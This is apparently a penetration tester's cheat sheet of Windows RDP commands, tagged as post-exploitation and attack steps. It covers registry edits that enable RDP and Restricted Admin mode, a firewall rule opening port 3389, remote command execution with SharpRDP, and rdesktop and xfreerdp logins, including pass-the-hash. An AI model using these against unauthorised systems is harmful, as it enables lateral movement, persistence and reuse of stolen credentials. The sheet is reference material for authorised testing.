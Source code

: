 # windows rdp

% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389

## enable RDP
#cat/POSTEXPLOIT 
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## enable restricted admin
#cat/POSTEXPLOIT 
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

## disable restricted admin
#cat/POSTEXPLOIT 
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

## rdp from console
```
sharprdp.exe computername=<computer> command="<command>" username=<domain>\<user> password=<password>
```

## Add firewall authorisation RDP
#cat/POSTEXPLOIT 
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp
```

# rdesktop
% rdp, windows
#plateform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## rdesktop - classic
```
rdesktop -g 90% <ip> -u <user> -p <password> -d <domain>
```

## rdesktop - with share
```
rdesktop -g 90% <ip> -u <user> -p <password> -d <domain> -r disk:share=<share>
```

# xfreerdp

% rdp, windows
#plateform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## xfreerdp - classic
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:1800x924
```

## xfreerdp - with share
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:1800x924 /drive:share,<share>
```

## xfreerdp - pass the hash
```
xfreerdp /u:<user> /pth:<hash> /d:<domain> /v:<ip>
```
